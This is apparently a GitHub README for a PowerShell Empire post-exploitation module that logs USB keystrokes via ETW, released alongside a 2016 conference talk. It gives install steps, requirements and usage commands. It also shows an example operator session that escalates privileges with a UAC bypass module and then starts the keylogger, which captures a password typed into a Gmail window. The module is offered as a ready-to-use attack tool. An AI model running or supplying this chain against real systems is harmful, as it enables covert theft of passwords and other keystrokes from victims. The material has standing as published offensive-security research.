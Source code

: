 # ETWKeylogger_PSE
PowerShell Empire module for our keylogging technique presented at Ruxcon 2016

Slides:  
https://ruxcon.org.au/slides/

C# POC Code:  
https://github.com/CyberPoint/Ruxcon2016ETW/tree/master/KeyloggerPOC


##Install
Copy files to PSE:  
Get-USBKeystrokes.ps1 -> `<Empire_dir`>/data/module_source/collection/  
USBKeyLogger.py -> `<Emipre_dir`>/lib/modules/collection/  

##Requirements
Windows 7* and up  
*Windows 7 - No USB 3.0 support  
USB Keyboard  
Admin priveleges  

##Usage
Requires admin to run (see UAC bypasses: privesc/bypassuac*). From a PSE agent session:  

usemodule collection/USBKeylogger  
execute  

##Example Session
(include UAC bypass)  

(Empire: privesc/bypassuac) > [+] Initial agent PTELZMW2KL4NKZMD from 10.10.10.181 now active  
interact  PTELZMW2KL4NKZMD  
(Empire: PTELZMW2KL4NKZMD) > usemodule privesc/bypassuac_eventvwr  
(Empire: privesc/bypassuac_eventvwr) > set Listener 1  
(Empire: privesc/bypassuac_eventvwr) > execute  
(Empire: privesc/bypassuac_eventvwr) >  
Job started: Debug32_gz2k1  
[+] Initial agent BQSZGT2BZH3A4CUT from 10.10.10.181 now active  
interact BQSZGT2BZH3A4CUT  
(Empire: BQSZGT2BZH3A4CUT) > usemodule collection/USBKeylogger  
(Empire: collection/USBKeylogger) > execute  
(Empire: collection/USBKeylogger) >  
Job started: Debug32_24nbw

ETWKeylogger, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null  
ETW library loaded  
Callback registered. Starting keylogger  
Started keylogger  

[=== Gmail and 1 more page ‎- Microsoft Edge - 09/11/2016:13:02:20 ===]  
password  

##Contact Us  
@CyberPoint_SRT
SRT [at] cyberpointllc.com
